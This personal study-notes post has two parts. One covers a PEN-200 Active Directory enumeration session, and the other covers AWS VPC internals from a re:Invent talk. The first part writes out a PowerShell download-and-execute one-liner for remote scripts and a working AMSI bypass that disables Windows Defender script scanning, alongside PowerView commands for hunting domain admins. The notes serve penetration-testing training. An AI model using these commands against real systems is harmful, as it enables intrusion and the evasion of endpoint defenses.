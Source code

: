 # OffSec Live: PEN-200 & AWS Deep Dive

**author**:: Nathan Acks  
**date**:: 2022-08-24

Notes from OffSec Live in the morning (as usual), and then a few more YouTube videos about AWS this evening.

## OffSec Live: PEN-200 - Active Directory Enumeration & Exploitation, Part 1

The Windows `whoami` supports a lot of flags. For example, `whoami /privs` returns privilege information, while `whoami /all` returns *tons* of information about the current user.

The Windows host name will be returned by the `hostname` command.

The Windows `systeminfo` command returns *a lot* of information about the current computer, including the associated domain controller if it's domain-joined.

Use `net users` to enumerate all local users on Windows.

Use `net users /domain` to enumerate domain users. `Administrator`, `Guest`, and `krbtgt` are all standard Windows domain users.

Windows allows for duplicate domain and local users; this is why users get prefixed by the domain or local machine name (and comparing the output of `whoami` and `hostname` will reveal if you're logged in with a local or domain account).

When viewing information about a Windows user, `net user $USERNAME` will return *local* user information, while `net user $USERNAME /domain` *domain* user information.

Local and domain groups can be enumerated in Windows using `net localgroup` and `net group /domain`.

See all Windows administrators for the local system: `net localgroup administrators`

By default, all members of the `Domain Admins` domain group are admins of both the *domain* and *all* machines in that domain.

One way to show domain group membership is to use `net group $GROUP /domain`. However, this *doesn't* show domain groups that are members of that group; for this you need to use PowerShell.

A good enumeration tool is `PowerView.ps1`. 

One tool supplied by `PowerView.ps1` is the `Get-DomainUsers | select name, memberof` command, which gets domain users and associated groups.

The `Get-DomainGroupMember -Identity $GROUP_NAME` command for `PowerView.ps1` will get all domain group members, *including* nested domain groups.

Another `PowerView.ps1` command is `Get-NetLoggedon | select UserName`, will show all users that previously logged on to the current machine. It requires administrative privileges to be run against remote machines.

The `Get-NetSession` command for `PowerView.ps1` shows all users who are logged in to the current machine *right now*. It can be called *without* admin privileges from Windows Server systems.

Finally, the `Invoke-UserHunter` command for `PowerView.ps1` bundles up `Get-NetLoggedon` and `Get-NetSession` to hunt for currently logged in domain admins.

You can download a remote script into memory and execute it using PowerShell using `IEX (New-Object System.Net.Webclient).DownloadString("$SCRIPT_URL")`. You can also load scripts into variables this way (just replace `IEX` with a variable assignment).

Windows Defender uses a process called AMSI that triggers when a script is run in PowerShell (this includes invocations of `IEX` for in-memory scripts). However, there's a lot of bypasses for this - for example, you can cause the AMSI init function to error out using `[REF].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)`.

AMSI traps all PowerShell commands that contain all AMSI-function related strings, however. The search uses regular expressions, and can be bypassed by putting portions of the script you're trying to call in variables, and then calling these instead. If you really need a one-liner, you can also do some fancy hex code conversion (see the "Bypass AMSI by manual modification" link).

Be aware that AMSI bypasses are *per session*, not global!

* [OffSec Live](https://www.offensive-security.com/offsec/offsec-live/)
* [Join OffSec Live](https://learn.offensive-security.com/offsec-live-webinars)
* [PowerShellMafia / PowerSploit / Recon / PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
* [Bypass AMSI by manual modification](https://s3cur3th1ssh1t.github.io/Bypass_AMSI_by_manual_modification/)

## Another Day, Another Billion Packets

[AWS re:Invent 2015: Another Day, Another Billion Packets (YouTube)](https://youtu.be/R-n4dDGfQd4)

VPC was originally created to help *Amazon* migrate their data centers to AWS.

EC2 originally just assigned new instances random IP addresses in the 10.44.x.x range. Every new instance got its own IP address, and there was no concept of unified subnets.

VPCs solve this! Every VPC gets a non-routable network that you choose. VPC subnets can be anything, so long as they (1) don't overlap and (2) are entirely contained within the VPC network.

VPCs are *not* VLAN based - there are at most 4096 separate VLAN tags.

VPCs are identified internally with a 128 bit number (8 hex digits).

The VPC mapping service is basically an ARP cache on steroids that understands what EC2 instances and VPCs *are* and on which physical servers the instances are located. But the mapping service doesn't *just* provide L2 information - servers receiving packets also verify that those packets are authentic (that the packet's server/instance/VPC tuple matches an existing system).

The mapping service also functions as a "virtual gateway", providing routing information *between* subnets. One interesting consequence of this is that, while in a traditional network inter- and intra-network routing looks slightly different, in AWS this routing is *exactly* the same once packets leave a physical server. L2 and L3 routing are essentially unified within AWS.

In practice, the every server contains a dedicated system that caches from the mapping service. In fact, these devices *pro-actively* cache from the mapping service as instances are spun up within a VPN. *All queries are handled by these caches.*

There are two types of caches - caches to individual hosts (EC2) instances, and caches to "edges", which map to other networks. Direct Connect, VPNs, and internet gateways are implemented at edges.

Edges also function as a 1-to-1 NAT in their role as internet gateways.

Edge devices are called "Blackfoot", after the South African Blackfoot Penguin.

The last non-AWS Amazon web server was deactivated on November 10, 2010. Since then, Amazon has run 100% on AWS. And Amazon uses the same EC2 instances as everyone else.

Edges can also now route to S3, enabling S3 buckets to be exposed *privately* within a VPC. Packets routed to S2 buckets configured in this fashion *never* traverse the public internet - they go out to an edge device and then are routed from there to S3.

S3 buckets can be restricted to particular VPCs, and EC2 instances can be restricted to accessing particular EC2 buckets. All of this is done with the standard Amazon ("Aspen") policy document structure.
